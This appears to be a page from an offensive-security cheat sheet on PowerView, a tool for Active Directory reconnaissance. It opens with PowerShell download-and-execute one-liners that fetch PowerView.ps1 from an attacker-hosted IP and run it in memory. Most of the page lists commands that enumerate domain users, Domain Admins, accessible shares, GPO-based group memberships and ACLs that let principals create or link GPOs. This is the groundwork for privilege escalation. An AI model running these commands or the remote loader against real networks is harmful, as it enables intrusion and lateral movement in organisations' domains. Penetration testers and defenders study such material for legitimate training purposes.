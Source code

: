 ```
# host the script & load in memory
# from powershell:
iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')

# from cmd:
powershell -command iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')
```

#### <mark style="color:green;">PowerView Cheat Sheet</mark>

```
# Get all users in the current domain
Get-DomainUser | select -ExpandProperty cn

# Get all computers in the current domain
Get-DomainComputer

# Get all domains in current forest
Get-ForestDomain

# Get domain/forest trusts
Get-DomainTrust
Get-ForestTrust

# Get information for the DA group
Get-DomainGroup "Domain Admins"

# Find members of the DA group
Get-DomainGroupMember "Domain Admins" | select -ExpandProperty membername

# Find interesting shares in the domain, ignore default shares, and check access
Find-DomainShare -ExcludeStandard -ExcludePrint -ExcludeIPC -CheckShareAccess

# Get OUs for current domain
Get-DomainOU -FullData

# Get computers in an OU
# %{} is a looping statement
Get-DomainOU -name Servers | %{ Get-DomainComputer -SearchBase $_.distinguishedname } | select dnshostname

# Get GPOs applied to a specific OU
Get-DomainOU *WS* | select gplink
Get-DomainGPO -Name "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"

# Get Restricted Groups set via GPOs, look for interesting group memberships forced via domain
Get-DomainGPOLocalGroup -ResolveMembersToSIDs | select GPODisplayName, GroupName, GroupMemberOf, GroupMembers

# Get the computers where users are part of a local group through a GPO restricted group
Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName

# Find principals that can create new GPOs in the domain
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=targetdomain,DC=com" -ResolveGUIDs | ?{ $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier

# Find principals that can link GPOs to OUs
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier

```